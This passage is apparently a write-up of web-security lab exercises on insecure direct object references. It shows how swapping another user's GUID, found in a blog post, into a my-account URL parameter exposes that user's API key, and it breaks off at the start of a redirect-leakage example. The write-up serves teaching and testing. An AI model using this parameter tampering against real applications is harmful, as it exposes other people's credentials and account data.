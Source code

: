 

#### EX2: User ID controlled by request parameter, with unpredictable user IDs

In some applications, the exploitable parameter does not have a predictable value. For example, instead of an incrementing number, an application might use globally unique identifiers (GUIDs) to identify users. Here, an attacker might be unable to guess or predict the identifier for another user. However, the GUIDs belonging to other users might be disclosed elsewhere in the application where users are referenced, such as user messages or reviews. 

**After Login i saw page contain this**

```url
https://example.com/my-account?id=970db933-626c-4578-ad2b-bd29632ba4af
```

```html
<h1>My Account</h1>
    <div id=account-content>
        <p>Your username is: wiener</p>
        <div>Your API Key is: W51z7rSn2h4Ol8B9J4q9h12geQxaT3i3</div>
    </div>
```

And i searched about any post or blog post by any user for example: carlos

and after search i found blog for carlos with his `userid` and i accessed my account and change parameter `id` with calrlos `id` and i got carlos `API` key

```url
https://example.com/my-account?id=f7c8da04-ac86-42c2-a443-dac1226c240f
```

```html
<h1>My Account</h1>
    <div id=account-content>
        <p>Your username is: carlos</p>
        <div>Your API Key is: Mlc9rz7Srzp9StsNZlWO2pA5aItiACZ6</div>
    </div>
```

#### EX3: User ID controlled by request parameter with data leakage in redirect

In some cases, an application does detect when the user is not permitted to access the resource, and returns a redirect to the login page. However, the response containing the redirect might still include some sensitive data belonging to the targeted user, so the attack is still successful. 

**After Login i saw page contain this**

```url
https://example.com/my-account?id=wiener
```

```html
<h1>My Account</h1>
    <div id=account-content>
        <p>Your username is: wiener</p>
        <div>Your API Key is: KC0fDx95ubSyRvTnnVVeVuz6YwFep4ug</div>
    </div>
```

